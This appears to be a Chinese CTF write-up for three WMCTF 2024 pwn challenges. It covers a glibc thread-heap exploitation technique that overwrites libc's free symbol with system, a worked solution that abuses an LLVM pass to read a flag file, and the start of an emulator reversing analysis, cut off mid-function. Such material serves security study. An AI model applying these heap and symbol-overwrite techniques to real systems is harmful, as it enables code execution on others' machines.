




> 衷心感谢 tplus 师傅的耐心帮助

本文首发于奇安信攻防社区 [https://forum.butian.net/share/3812](https://forum.butian.net/share/3812)
# BlindVM

[Linux 进程虚拟内存空间布局／Linux 下的虚拟内存分布](https://blog.csdn.net/vincent3678/article/details/117458127)
```bash
hint: https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/arena.c;hb=09fb06d3d60291af6cdb20357dbec2fbb32514de#l596

hint2: Useheap spraying to make the heap space contiguous with the LIBC space.

Task content：The expected solution does not require any brute force.
47.104.193.231:9999
```

```bash
da1bb0f99/bin$ checksec BlindVM
[*] '/home/llk/Desktop/pwn/2024 WMCTF/BlindVM_3952e413eaca0e8ede93af1da1bb0f99/bin/BlindVM'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```
[Linux 系统编程之进程（四）：进程退出 exit 与 _exit 的区别及 atexit 函数](https://www.cnblogs.com/mickole/p/3186606.html)

可以尝试大于 topchunk 的不同大小
## 线程栈
开始时，`__pthread_create_2_1` 通过 mmap 分配大小为 `0x801000` 的线程栈，随后切分为 `800000` 和 `1000`

```c

#0  __GI___mmap64 (addr=addr@entry=0x0, len=len@entry=8392704, prot=prot@entry=0, flags=flags@entry=131106, fd=fd@entry=-1, offset=offset@entry=0) at ../sysdeps/unix/sysv/linux/mmap64.c:47
#1  0x000070fc02095707 in allocate_stack (stacksize=<synthetic pointer>, stack=<synthetic pointer>, pdp=<synthetic pointer>, attr=0x7ffca70c5d30) at ./nptl/allocatestack.c:370
#2  __pthread_create_2_1 (newthread=0x7ffca70c5e60, attr=0x0, start_routine=0x6223aad872c0, arg=0x0) at ./nptl/pthread_create.c:647

   0x6223ac771000     0x6223ac792000 rw-p    21000      0 [heap]
    0x70fc01600000     0x70fc01601000 ---p     1000      0 [anon_70fc01600]
    0x70fc01601000     0x70fc01e01000 rw-p   800000      0 [anon_70fc01601]
    0x70fc02000000     0x70fc02028000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6

```
## 线程堆初始化与 mmap 相关分配
新线程中 heap_info、mstate 和 topchunk 的初始化流程

```c
__GI___libc_malloc->tcache_init->arena_get->arena_lock->arena_get2->_int_new_arena->new_heap->alloc_new_heap (size, top_pad, GLRO (dl_pagesize), MAP_NORESERVE);->MMAP (0, max_size << 1, PROT_NONE, mmap_flags) max_size << 1=8000000 和__munmap (p1, ul);和 __munmap (p2 + max_size, max_size - ul);


 0x6223ac771000     0x6223ac792000 rw-p    21000      0 [heap]
    0x70fbf9600000     0x70fc01600000 ---p  8000000      0 [anon_70fbf9600]
    
    0x70fc01600000     0x70fc01601000 ---p     1000      0 [anon_70fc01600]
    0x70fc01601000     0x70fc01e01000 rw-p   800000      0 [anon_70fc01601]

__munmap (p1, ul);和 __munmap (p2 + max_size, max_size - ul);后

 0x6223ac771000     0x6223ac792000 rw-p    21000      0 [heap]
    0x70fbfc000000     0x70fc00000000 ---p  4000000      0 [anon_70fbfc000]
    0x70fc01600000     0x70fc01601000 ---p     1000      0 [anon_70fc01600]
    0x70fc01601000     0x70fc01e01000 rw-p   800000      0 [anon_70fc01601]

```

当申请大小超过线程堆中的 topchunk，但未达到 `0x20000 mp_.mmap_threshold` 时，会进入以下流程，相当于增加 heap_info 的大小，topchunk 的大小自然也随之增大（size 是申请的字节数，按页大小对齐），然后切分 topchunk

```c
sysmalloc (nb, av);
{
……
   if ((long) (MINSIZE + nb - old_size) > 0
          && grow_heap (old_heap, MINSIZE + nb - old_size) == 0)
        {
          av->system_mem += old_heap->size - old_heap_size;
          set_head (old_top, (((char *) old_heap + old_heap->size) - (char *) old_top)
                    | PREV_INUSE );
        }
}

grow_heap {
……
  diff = ALIGN_UP (diff, pagesize);
  new_size = (long) h->size + diff;
  if ((unsigned long) new_size > (unsigned long) max_size)
    return -1;
    ……
   }
保证在0x4000000范围内
  0x6223ac771000     0x6223ac792000 rw-p    21000      0 [heap]
    0x70fbfc000000     0x70fbfc021000 rw-p    21000      0 [anon_70fbfc000]
    0x70fbfc021000     0x70fc00000000 ---p  3fdf000      0 [anon_70fbfc021]

```
但如果大于或等于 `0x20000 mp_.mmap_threshold`，就直接通过 mmap 分配


```c
 mm = sysmalloc_mmap (nb, pagesize, 0, av);
 ->
  MMAP (0, size,
			    mtag_mmap_flags | PROT_READ | PROT_WRITE,
			    extra_flags);
```

而在 grow_heap 中，如果 `h->size + diff;` 的大小已经超过 0x4000000 范围，就会进入下面的处理流程

```c
  else if ((heap = new_heap (nb + (MINSIZE + sizeof (*heap)), mp_.top_pad)))
   ->
  alloc_new_heap (size就是nb + (MINSIZE + sizeof (*heap)), top_pad, GLRO (dl_pagesize), MAP_NORESERVE);
  ->
  MMAP (0, max_size << 1, PROT_NONE, mmap_flags);
  else
    aligned_heap_area = p2 + max_size;
     __munmap (p2 + max_size, max_size - ul);

newheap后的处理流程（av还是之前那个，但把av的top改成了当前新heap的topchunk），大小就是heap->size - sizeof (*heap)) | PREV_INUSE，然后会设置一些间隔堆

 {
          /* Use a newly allocated heap.  */
          heap->ar_ptr = av;
          heap->prev = old_heap;
          av->system_mem += heap->size;
          /* Set up the new top.  */
          top (av) = chunk_at_offset (heap, sizeof (*heap));
          set_head (top (av), (heap->size - sizeof (*heap)) | PREV_INUSE);

          /* Setup fencepost and free the old top chunk with a multiple of
             MALLOC_ALIGNMENT in size. */
          /* The fencepost takes at least MINSIZE bytes, because it might
             become the top chunk again later.  Note that a footer is set
             up, too, although the chunk is marked in use. */
          old_size = (old_size - MINSIZE) & ~MALLOC_ALIGN_MASK;
          set_head (chunk_at_offset (old_top, old_size + CHUNK_HDR_SZ),
		    0 | PREV_INUSE);
          if (old_size >= MINSIZE)
            {
              set_head (chunk_at_offset (old_top, old_size),
			CHUNK_HDR_SZ | PREV_INUSE);
              set_foot (chunk_at_offset (old_top, old_size), CHUNK_HDR_SZ);
              set_head (old_top, old_size | PREV_INUSE | NON_MAIN_ARENA);
              _int_free (av, old_top, 1);
              
00:0000│  0x72b087ffffe0 ◂— 0xf60  是原来的topchunk的size
01:0008│  0x72b087ffffe8 ◂— 0x10 
02:0010│  0x72b087fffff0 ◂— 0x10
03:0018│  0x72b087fffff8 ◂— 1

            }
          else
            {
              set_head (old_top, (old_size + CHUNK_HDR_SZ) | PREV_INUSE);
              set_foot (old_top, (old_size + CHUNK_HDR_SZ));
            }
        }
然后再新的topchunk分割
 p = av->top;
  size = chunksize (p);

  /* check that one of the above allocation paths succeeded */
  if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
    {
      remainder_size = size - nb;
      remainder = chunk_at_offset (p, nb);
      av->top = remainder;
      set_head (p, nb | PREV_INUSE | (av != &main_arena ? NON_MAIN_ARENA : 0));
      set_head (remainder, remainder_size | PREV_INUSE);
      check_malloced_chunk (av, p, nb);
      return chunk2mem (p);
    }
```
注意，新堆中没有 mstate，只有 heap_info，其余部分是 topchunk
## 思路
mmap 分配的区域位于主线程堆与栈之间的某个偏移处，中间存在 mmap 分配的匿名映射，以及 libc、ld 的文件映射。

- 先分配当前 heap_info 中的空间（留下残余 topchunk，但让其大小既无法满足申请，也无法扩展，从而申请新的 heap_info），再使申请大小加上当前 heap->size 大于 max_size，使原有 topchunk 被释放，随后获得新的 heap_info
-  申请大于 `0x20000 ` 的空间，让 mmap 分配填满堆与 libc 之间的部分
-  从此前进入 unsortedbin 的 chunk 中分配一部分，再通过溢出修改其 size，使切分时 unsortedbin 的 fd 恰好落到新页的前八字节（即 libc 对应 heap_info 的 ar_ptr，因为每次获取 chunk 时都会检查其 arena 是否与 ar_ptr 匹配，而此时 fd 指向 ar_ptr 对应的 mstate 内部），随后将其分配出来，通过部分写获得 `ar_ptr `

```c
 assert (!victim || chunk_is_mmapped (mem2chunk (victim)) ||
          ar_ptr == arena_for_chunk (mem2chunk (victim)));
```
- 然后分配当前新 heap_info 中的空间（留下残余 topchunk，但让其大小既无法满足申请，也无法扩展，从而申请新的 heap_info），再修改 topchunk 的 size，将其增大
- 随后不断分配，直到该 heap_info 只剩 0x10（但由于 size 已被修改，对应的 topchunk 仍然很大），再申请 size=`0x4000010  `，使第一次分配落到第二个 heap_info，第二次分配落到第一个 heap_info
- 

```c
0x76becc000000   0x76bed0000000     rw-p  4000000     0 [anon_76becc00]  第二个
 0x76bed0000000     0x76bed4000000 rw-p  4000000      0 [anon_76bed0000]
    0x76bed4000000     0x76bed8000000 rw-p  4000000      0 [anon_76bed4000]  第一个

第一个下面总是不连续，并且小于0x20000，可以每次喷的时候多个小于0x20000的部分，来把不足0x20000的部分填满

```
- 此时 topchunk 位于 heap_info 下方，此前伪造的 heap_info 恰好位于 heap_info 下方的起始处。也就是说，第一次分配完成后，topchunk 移动到伪造的 heap_info。这样便将 _heap_info 视作 topchunk，再次分配时恰好通过 ar_ptr 检查，同时也能写入 size 后面的数据，从而控制 heap_info




- 后续通过 grow_heap 扩展 topchunk，再切分以覆盖 libc，就顺理成章了

> 加载 libc 地址的过程大致如下
dl_fixup 通过字符串找到该函数对应的结构
这个结构保存了一个偏移
该函数最终的真实地址为 l_addr（库加载地址）+ 偏移
这个结构存放在 libc 开头的 ro 段
我们拥有的原语（mprotect）可以将其改为 rw，随后直接将 free 对应的偏移改写为 system

```bash
IDA中的Elf64_Sym
LOAD:000000000000D4D0                 dd offset aLibcFree+7 - offset unk_16650; st_name ; "free"
LOAD:000000000000D4D4                 db 12h                  ; st_info
LOAD:000000000000D4D5                 db 0                    ; st_other
LOAD:000000000000D4D6                 dw 0Fh                  ; st_shndx
LOAD:000000000000D4D8                 dq offset free          ; st_value
LOAD:000000000000D4E0                 dq 101h                 ; st_size


pwndbg> p &free
$80 = (void (*)(void *)) 0x72b088ca53e0 <__GI___libc_free>
pwndbg> libc
libc : 0x72b088c00000
pwndbg> p/x 0x72b088ca53e0-0x72b088c00000
$81 = 0xa53e0
pwndbg> search -p 0xa53e0
Searching for value: b'\xe0S\n\x00\x00\x00\x00\x00'
libc.so.6       0x72b088c0d4d8 0xa53e0
libc.so.6       0x72b088c0d640 0xa53e0
libc.so.6       0x72b088c14618 0xa53e0
pwndbg> vmmap 0x72b088c0d4d8
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x72b088a01000     0x72b088c00000 rw-p   1ff000      0 [anon_72b088a01]
►   0x72b088c00000     0x72b088c28000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6 +0xd4d8
    0x72b088c28000     0x72b088dbd000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
pwndbg> p/x 0x72b088c0d4d8-0x72b088c00000
$82 = 0xd4d8
pwndbg> tele 0x72b088c0d4d0
00:0000│  0x72b088c0d4d0 ◂— 0xf001200004dde
01:0008│  0x72b088c0d4d8 ◂— 0xa53e0
02:0010│  0x72b088c0d4e0 ◂— 0x101
03:0018│  0x72b088c0d4e8 ◂— 0xf001200001e92
04:0020│  0x72b088c0d4f0 ◂— 0x3a1b0
05:0028│  0x72b088c0d4f8 ◂— 0x13
06:0030│  0x72b088c0d500 ◂— 0xfff1001100007e62 /* 'b~' */
07:0038│  0x72b088c0d508 ◂— 0

```

## 利用脚本
不知道为什么发不出来


# babysigin
LLVM pass 题目
粗看给了 mmap、open、read、write，直接读 flag 不就行了？不过有一些限制，还有一些特殊之处需要逆向

```c
apt-get -y install llvm && apt-get -y install clang 

clang-14 -emit-llvm llk.c -S -o  llk.bc

```

需要使用 `opt -load ./WMCTF.so -WMCTF -enable-new-pm=0 ./llk.bc` 启动。我忘了检查，一直漏掉 ` -enable-new-pm=0`，导致始终找不到 PASS
## 模块、函数与基本块
下面用一个 C 语言示例说明 Module、Function 和 Basic Block 的关系。这些概念是 LLVM IR 的核心组成部分。

先来看一个简单的 C 程序：

```c
#include <stdio.h>

int add(int a, int b) {
    return a + b;
}

int max(int a, int b) {
    if (a > b) {
        return a;
    } else {
        return b;
    }
}

int main() {
    int x = 5, y = 10;
    int sum = add(x, y);
    int maximum = max(x, y);
    printf("Sum: %d, Max: %d\n", sum, maximum);
    return 0;
}
```

下面说明这个程序在 LLVM 中如何组织：

1. Module（模块）：
   - 整个 C 文件被视为一个 Module。
   - Module 是 LLVM IR 的顶层容器。
   - 它包含所有函数定义、全局变量和其他顶层实体。

2. Function（函数）：
   - 本例中有三个函数：`add`、`max` 和 `main`。
   - 每个函数在 LLVM IR 中表示为一个 Function。
   - Function 包含函数参数、返回类型和函数体。

3. Basic Block（基本块）：
   - 每个函数由一个或多个 Basic Block 组成。
   - Basic Block 是一系列连续指令，只有一个入口（第一条指令）和一个出口（最后一条指令）。
   - 在本例中：
     - `add` 函数可能只有一个基本块。
     - `max` 函数可能有三个基本块：分别用于条件检查、`if` 分支和 `else` 分支。
     - `main` 函数可能有一个或多个基本块，具体取决于编译器优化。

再仔细看看 `max` 函数，因为它展示了多个基本块：

```llvm
define i32 @max(i32 %a, i32 %b) {
entry:
  %cmp = icmp sgt i32 %a, %b
  br i1 %cmp, label %if.then, label %if.else

if.then:                                          ; preds = %entry
  ret i32 %a

if.else:                                          ; preds = %entry
  ret i32 %b
}
```

在这段 LLVM IR 表示中：
- 整个 `max` 函数是一个 Function。
- 它包含三个基本块：`entry`、`if.then` 和 `if.else`。
- `entry` 块包含比较指令和条件分支。
- `if.then` 和 `if.else` 块各包含一条返回指令。

关系总结：
1. 一个 Module 包含多个 Function。
2. 每个 Function 包含一个或多个 Basic Block。
3. Basic Block 包含实际的指令序列。


## 逆向分析
结合动态调试与 AI 进行逆向（让 AI 根据 PASS 生成一个 C 语言示例）

## 要点 1

```c
 var = (llvm::Value *)llvm::UnaryInstruction::getOperand(load_code, 0);
          var_name = llvm::Value::getName(var);

llvm::StringRef::StringRef((llvm::StringRef *)&v68, ".addr");
          if ( (llvm::StringRef::contains(&var_name, v68.data_ptr, v68.len) & 1) == 0 )
          {
```
getOperand 取出第一个参数变量，再由 getName 获取变量名，变量名需要包含 `.addr`

## 要点 2
然后获取当前 call 指令所在的函数，开始遍历该函数所属模块中每个函数的每个 basic_block 内的指令
```c
 moudle = (llvm::Module *)llvm::GlobalValue::getParent(fucntion_1);
          `anonymous namespace'::WMCTF::getFunctionCallValue[abi:cxx11](
            (llvm *)file_name_1,
            (__int64)this,
            moudle,
            fucntion_1,
            0);
```
如果存在 call 指令，且被调用函数与之前 call 指令所在的函数相同，则进入以下流程

```c
 call = (llvm::CallBase *)llvm::dyn_cast<llvm::CallInst,llvm::Instruction>(instruction);
          if ( call )
          {
            CalledFunction = (llvm::Value *)llvm::CallBase::getCalledFunction(call);
            called_fuc_name = llvm::Value::getName(CalledFunction);
            v41 = v7;
            func_name = llvm::Value::getName(func_1);
            v39 = v8;
            if ( (llvm::operator==(called_fuc_name, v41, func_name, v8) & 1) != 0 )
            {
```
接着检查被调用函数的参数是否为 loadinst，即指针；如果参数变量名包含 `.addr`，则再次进入上述流程

```c
 if ( (llvm::operator==(called_fuc_name, v41, func_name, v8) & 1) != 0 )
            {
              Operand = llvm::CallBase::getOperand(call, 0);
              loadinst = (llvm::UnaryInstruction *)llvm::dyn_cast<llvm::LoadInst,llvm::Value>(Operand);
              if ( loadinst )
              {
                addr = (llvm::Value *)llvm::UnaryInstruction::getOperand(loadinst, 0);
                Name = llvm::Value::getName(addr);
                v36 = v11;
                llvm::StringRef::StringRef((llvm::StringRef *)v34, ".addr");
                if ( (llvm::StringRef::contains(&Name, v34[0], v34[1]) & 1) != 0 )
                {
                  `anonymous namespace'::WMCTF::getFunctionCallValue[abi:cxx11](
                    result,
                    a2,
                    moudle_1,
                    func,
                    recursion_dep_1 + 1);
                  return result;
                }
```

如果不包含 `.addr`，则进入下面的处理流程：如果查找当前被调用函数的递归深度不是 3，就返回空字符串

```c
 if ( recursion_dep_1 != 3 )
                {
                  v12 = llvm::errs((llvm *)&Name);
                  v13 = llvm::raw_ostream::operator<<(v12, recursion_dep_1);
                  llvm::raw_ostream::operator<<(v13, "\n");
                  std::allocator<char>::allocator(v33);
                  std::string::basic_string(result, "", v33);
                  std::allocator<char>::~allocator(v33);
                  return result;
                }
```
如果不包含 `.addr` 且递归深度为 3，则进入下面的流程。这里查找所有使用当前函数的 loadins 参数的指令，再选出 StoreInst 指令，通过它获取参数，最后将其设为字符串。但这里必须满足 `v16 = llvm::StoreInst::getOperand(v26, 0);
                    v25 = (llvm::ConstantExpr *)llvm::dyn_cast<llvm::ConstantExpr,llvm::Value>(v16);`

```c
v32 = (llvm::Value *)llvm::UnaryInstruction::getOperand(loadinst, 0);
                v30[0] = llvm::Value::uses(v32);
                v30[1] = v14;
                v31 = v30;
                v29 = llvm::iterator_range<llvm::Value::use_iterator_impl<llvm::Use>>::begin(v30);
                v28 = llvm::iterator_range<llvm::Value::use_iterator_impl<llvm::Use>>::end(v31);
                while ( (llvm::Value::use_iterator_impl<llvm::Use>::operator!=(&v29, &v28) & 1) != 0 )
                {
                  v27 = (llvm::Use *)llvm::Value::use_iterator_impl<llvm::Use>::operator*(&v29);
                  User = llvm::Use::getUser(v27);
                  v26 = (llvm::StoreInst *)llvm::dyn_cast<llvm::StoreInst,llvm::User>(User);
                  if ( v26 )
                  {
                    v16 = llvm::StoreInst::getOperand(v26, 0);
                    v25 = (llvm::ConstantExpr *)llvm::dyn_cast<llvm::ConstantExpr,llvm::Value>(v16);
                    if ( v25 )
                    {
                      v17 = llvm::ConstantExpr::getOperand(v25, 0);
                      v24 = (llvm::GlobalVariable *)llvm::dyn_cast<llvm::GlobalVariable,llvm::Constant>(v17);
                      if ( v24 )
                      {
                        Initializer = llvm::GlobalVariable::getInitializer(v24);
                        v23 = (llvm::ConstantDataSequential *)llvm::dyn_cast<llvm::ConstantDataArray,llvm::Constant>(Initializer);
                        if ( v23 )
                        {
                          v22[0] = llvm::ConstantDataSequential::getAsString(v23);
                          v22[1] = v19;
                          llvm::StringRef::str[abi:cxx11](result, v22);
                          return result;
                        }
                      }
                    }
                  }
                  llvm::Value::use_iterator_impl<llvm::Use>::operator++(&v29);
                }
```

先遍历 loadinst 第一个参数的所有使用处，再转换为 storeinst，并取出 storeinst 的第一个参数，该参数需要是全局常量。后来想了想，常量应该都是全局的……
如下所示
```c
 const char *store="./flag";
 func4(store);
 此时对应的IR，此时会自动生成一个全局变量表示"./flag"
 @.str = private unnamed_addr constant [7 x i8] c"./flag\00", align 1
 
  store i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i64 0, i64 0), i8** %3, align 8
  %4 = load i8*, i8** %3, align 8
  call void @func4(i8* noundef %4)
```

# 关键点
声明全局变量时的写法与实际 IR 的对比
```c
const char * flag="./flag";
const char *recrusive = "nouse";  

@.str = private unnamed_addr constant [7 x i8] c"./flag\00", align 1
@flag = dso_local global i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i32 0, i32 0), align 8
@.str.1 = private unnamed_addr constant [6 x i8] c"nouse\00", align 1
@recrusive = dso_local global i8* getelementptr inbounds ([6 x i8], [6 x i8]* @.str.1, i32 0, i32 0), align 8

```
直接赋值字符串时的写法与对应 IR 的对比，store 通过 @.str 进行

```c
 const char *store="./flag";
   func4(store);
   
  %2 = alloca i8*, align 8
  %3 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  store i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i64 0, i64 0), i8** %3, align 8
  %4 = load i8*, i8** %3, align 8
  call void @func4(i8* noundef %4)

```
最后的 write 部分

```c
  addr_string = llvm::UnaryInstruction::getOperand(loadinst, 0);
                v44 = (llvm::GlobalVariable *)llvm::dyn_cast<llvm::GlobalVariable,llvm::Value>(addr_string);
                if ( !v44 )
                {
                  v88 = 0;
                  return v88 & 1;
                }
                v34 = llvm::GlobalVariable::getOperand(v44, 0);
                v43 = (llvm::ConstantInt *)llvm::dyn_cast<llvm::ConstantInt,llvm::Value>(v34);
                if ( v43 )
                {
                  if ( (unsigned int)llvm::ConstantInt::getSExtValue(v43) != 0x8888 )
```

这段代码获取全局变量的初始值，并将其转换为 `llvm::ConstantInt` 类型。
`v44` 是 `llvm::GlobalVariable` 类型的指针，表示一个全局变量。`llvm::GlobalVariable::getOperand` 方法用于获取该全局变量的第一个操作数，也就是全局变量的初始值。`v34` 即为该操作数。
随后，`llvm::dyn_cast` 方法将 `v34` 转换为 `llvm::ConstantInt` 类型，以便访问其值。`v43` 是指向这个常量整数的指针。
例如，假设有以下 C 代码：
```c
int global_var = 0x12345678;
```

对应的 LLVM IR 代码可能如下：
```less
@global_var = external global i32
```

这里，`@global_var` 是一个初始值由外部提供的全局变量。如果要获取该全局变量的初始值，可以使用以下代码：
```c++
llvm::GlobalVariable *globalVar = M.getNamedGlobal("global_var"); // M是一个Module对象
llvm::Value *initVal = globalVar->getOperand(0); // 获取全局变量的初始值
llvm::ConstantInt *constInt = dyn_cast<llvm::ConstantInt>(initVal); // 强制转换为常量整数
int value = constInt->getZExtValue(); // 获取常量整数的值
```

这样，`value` 就会是 `0x12345678`。


ConstantInt 并不等同于 C 语言中的 const
## 利用脚本

```c
void  WMCTF_OPEN(const char* str )
{

}
void WMCTF_READ(int arg)
{

}

void WMCTF_MMAP(int arg)
{

}
void WMCTF_WRITE(int arg)
{

}
const char * flag="./flag";
const char *recrusive = "nouse";  
int GLOBAL_CONSTANT = 0x8888;
void func1(const char * arg)
{
    WMCTF_MMAP(0x7890);
    WMCTF_OPEN(recrusive); 

    WMCTF_READ(0x6666);
   

    WMCTF_WRITE(GLOBAL_CONSTANT);
}
void func2(const char * arg)
{
    func1(recrusive);
}
void func3(const char * arg)
{
    func2(recrusive);
}
void func4(const char * arg)
{
    func3(recrusive);
}
void func5(const char * arg)
{
    const char *store="./flag";
    func4(store);
}
```

```bash
; ModuleID = 'llk.c'
source_filename = "llk.c"
target datalayout = "e-m:e-p270:32:32-p271:32:32-p272:64:64-i64:64-f80:128-n8:16:32:64-S128"
target triple = "x86_64-pc-linux-gnu"

@.str = private unnamed_addr constant [7 x i8] c"./flag\00", align 1
@flag = dso_local global i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i32 0, i32 0), align 8
@.str.1 = private unnamed_addr constant [6 x i8] c"nouse\00", align 1
@.addr = dso_local global i8* getelementptr inbounds ([6 x i8], [6 x i8]* @.str.1, i32 0, i32 0), align 8
@GLOBAL_CONSTANT = dso_local global i32 34952, align 4

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @WMCTF_OPEN(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @WMCTF_READ(i32 noundef %0) #0 {
  %2 = alloca i32, align 4
  store i32 %0, i32* %2, align 4
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @WMCTF_MMAP(i32 noundef %0) #0 {
  %2 = alloca i32, align 4
  store i32 %0, i32* %2, align 4
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @WMCTF_WRITE(i32 noundef %0) #0 {
  %2 = alloca i32, align 4
  store i32 %0, i32* %2, align 4
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func1(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  call void @WMCTF_MMAP(i32 noundef 30864)
  %3 = load i8*, i8** @.addr, align 8
  call void @WMCTF_OPEN(i8* noundef %3)
  call void @WMCTF_READ(i32 noundef 26214)
  %4 = load i32, i32* @GLOBAL_CONSTANT, align 4
  call void @WMCTF_WRITE(i32 noundef %4)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func2(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @.addr, align 8
  call void @func1(i8* noundef %3)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func3(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @.addr, align 8
  call void @func2(i8* noundef %3)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func4(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  %3 = load i8*, i8** @.addr, align 8
  call void @func3(i8* noundef %3)
  ret void
}

; Function Attrs: noinline nounwind optnone uwtable
define dso_local void @func5(i8* noundef %0) #0 {
  %2 = alloca i8*, align 8
  %3 = alloca i8*, align 8
  store i8* %0, i8** %2, align 8
  store i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i64 0, i64 0), i8** %3, align 8
  %4 = load i8*, i8** %3, align 8
  call void @func4(i8* noundef %4)
  ret void
}

attributes #0 = { noinline nounwind optnone uwtable "frame-pointer"="all" "min-legal-vector-width"="0" "no-trapping-math"="true" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+cx8,+fxsr,+mmx,+sse,+sse2,+x87" "tune-cpu"="generic" }

!llvm.module.flags = !{!0, !1, !2, !3, !4}
!llvm.ident = !{!5}

!0 = !{i32 1, !"wchar_size", i32 4}
!1 = !{i32 7, !"PIC Level", i32 2}
!2 = !{i32 7, !"PIE Level", i32 2}
!3 = !{i32 7, !"uwtable", i32 1}
!4 = !{i32 7, !"frame-pointer", i32 2}
!5 = !{!"Ubuntu clang version 14.0.0-1ubuntu1.1"}

```

#  evm


```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
## BYTE1
服了，一直以为 BYTE1 是低字节，结果并不是

在 IDA 中，可以逐步分析 `result = (BYTE1(code) >> 4) & 7;` 这行代码的作用。假设 `code` 是整数类型变量，`BYTE1(code)` 是用于提取 `code` 第二个字节的宏或函数（从低位开始计数，最低字节为第 0 字节）。

### 分析步骤：

1. **`BYTE1(code)`**:
   - `BYTE1(code)` 通常用于提取 `code` 的第二个字节（即从低位开始计数的第 1 字节）。例如，若 `code` 是 32 位整数，则 `BYTE1(code)` 提取 `code` 的第 8 至第 15 位这 8 个比特。
   - 具体实现可能是 `#define BYTE1(x) ((x >> 8) & 0xFF)`，即将 `code` 右移 8 位，再取最低的 8 位。

2. **`BYTE1(code) >> 4`**:
   - 这一步将提取出的第二个字节再右移 4 位，保留该字节的高 4 位，丢弃低 4 位。

3. **`& 7`**:
   - `7` 的二进制表示为 `00000111`，只保留最低 3 位。`& 7` 将移位结果与 `7` 按位与，因此只保留结果的最低 3 位。

### 总结：
`result = (BYTE1(code) >> 4) & 7;` 这行代码的作用是：

- 从 `code` 中提取第二个字节（第 8 至第 15 位）。
- 将该字节右移 4 位，保留其高 4 位。
- 再通过 `& 7` 操作，只保留移位结果的最低 3 位。

最终，`result` 的值是 `code` 第二个字节的高 4 位中的最低 3 位。这类操作通常用于从字节中提取特定位字段，可能用于解析某种编码格式或协议。


## 主要逆向分析

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  struct emulator v4; // [rsp+0h] [rbp-140h] BYREF
  unsigned __int64 v5; // [rsp+128h] [rbp-18h]

  v5 = __readfsqword(0x28u);
  setbuf();
  init_emulator(&v4);
  run_emulator(&v4);
  dele_emulator(&v4);
  return 0LL;
}
int __fastcall init_emulator(struct emulator *a1)
{
  a1->chunk_1000_ptr_page_table_addr_array[1] = malloc(0x1000uLL);
